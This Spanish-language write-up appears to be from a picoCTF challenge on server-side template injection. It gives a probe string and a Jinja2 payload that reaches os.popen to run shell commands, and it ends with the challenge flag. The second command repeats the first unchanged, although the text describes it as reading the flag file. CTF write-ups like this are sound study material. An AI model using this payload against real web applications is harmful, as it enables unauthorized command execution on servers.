 
**Reto:**
Hacer una inyección a la platilla del sitio para obtener la bandera

**Descripción:**
-I made a cool website where you can announce whatever you want! Try it out!
-I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:56200/)!

**Solución:**
Descifrar la plantilla usada e ingresar un comando que revele la ubicación de la bandera.
-Abrir la página.
-Escribir en la entrada `${{<%[%'"}}%\` para verificar que haya una vulnerabilidad
-Escribir el siguiente comando en la página:`
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}`
-Una vez encontrados los archivos, ingresar a la pagina el siguiente comando.
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}`
-Cuando se ingresa el comando en la página, la página mostrara el archivo con el texto en pantalla.

El resultado es: **picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}**.

**Notas adicionales:**
-Para verificar el tipo de plantilla usada, se tiene que seguir un proceso de entradas hasta encontrar la plantilla utilizada.

**Referencias:**
https://portswigger.net/web-security/server-side-template-injection
https://portswigger.net/web-security/server-side-template-injection/exploiting
